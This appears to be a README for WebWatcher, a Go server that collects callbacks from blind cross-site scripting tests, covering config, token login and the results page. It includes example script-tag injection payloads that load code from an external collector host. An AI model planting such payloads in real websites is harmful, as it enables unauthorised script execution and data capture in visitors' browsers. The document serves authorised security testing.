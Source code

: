 # WebWatcher
Golang server for testing blind XSS.   
Special endpoint for testing requests and file extensions.  

## Setup


Setup .wwconfig and add it to your home directory.  
Make sure that `assets` and `templates` are in the directory specified in config.  

Login to your website with /login?token=[token]

## Usage
After authentication, you can find all requests in `/results/all`.  
Left side is from  XSS requests.  
Right side is from custom path requests.  
![results](_img/results.png)

**Application have 2 parts**

1. Collecting simple request data from path you specified in config
This endpoint will contain response specified in `assets/extensions.json` file  

**Example:**  
if you specified `"CollectorPath":"example"` in config file and set .js extensions with payload `alert(1)` in `assets/extensions.json`  
and insert this payload to the website, alert will popup.
`<script src=https://domain.com/example.js></script>`

2. Collecting data from blind XSS
`<script src=https://example.com></script>`
![blind xss](_img/blindxss.png)




